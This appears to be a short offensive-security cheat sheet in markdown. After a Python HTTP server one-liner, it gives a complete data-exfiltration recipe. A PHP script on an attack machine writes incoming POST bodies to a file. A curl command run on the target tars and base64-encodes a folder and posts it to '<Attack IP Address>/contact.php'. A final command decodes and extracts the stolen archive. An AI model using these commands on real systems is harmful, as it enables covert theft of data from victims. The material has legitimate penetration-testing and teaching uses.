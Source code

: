 # Python HTTP Server
```bash
python3 -m http.server <Port #>
```
##### Older Kali systems
```bash
python -m SimpleHTTPServer <Port #>
```

# Data Exfiltration
### Exfiltrate Base64 encoded data via POST request over HTTPS to PHP server, with SSL certificate.
##### On attack machine, create a PHP file that will receive POST request and write data to a file.
```bash
# contact.php - see contact.php in DataExfiltation folder.
<?php file_put_contents('/tmp/datafolder.base64', file_get_contents('php://input')); ?>
```
[contact.php](DataExfiltration/contact.php)
##### From target, use curl to send POST request that tars and encodes the data.
```bash
curl --data "$(tar zcf - /tmp/datafolder | base64)" https://<Attack IP Address>/contact.php
```
##### From attack machine, decode file, redirect to tar, and extract.
```bash
cat /tmp/datafolder.base64 | base64 -d > datafolder.tar && tar xf datafolder.tar
```

### Data Exfiltration References
[POST HTTP](https://en.wikipedia.org/wiki/POST_(HTTP))